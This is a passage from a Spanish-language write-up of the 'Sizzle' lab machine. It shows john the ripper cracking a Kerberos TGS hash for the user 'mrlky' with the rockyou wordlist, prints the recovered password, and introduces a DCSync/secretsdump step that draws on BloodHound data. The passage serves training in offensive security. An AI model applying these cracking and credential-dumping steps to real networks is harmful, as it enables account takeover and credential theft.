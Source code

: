 ![](/assets/images/Sizzle/img7.png)

Vamos a intentar romper el hash para extraer la password del usuario "mrlky" Usaremos nuevamente la herramienta john.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash2
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Football#7       (?)
1g 0:00:00:05 DONE (2023-03-12 12:07) 0.1724g/s 1925Kp/s 1925Kc/s 1925KC/s Forever3!..Flubb3r
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### DCSync SecretsDump

Bien! Ya tenemos acceso a otro usuario.  Ahora si quisieramos ganar una shell tendriamos que hacer lo mismo que antes, crear la solicitud del certificado... etc. Vamos a aprovechar que tenemos los datos de BloodHound y vamos a ver que podemos hacer con ese usuario.
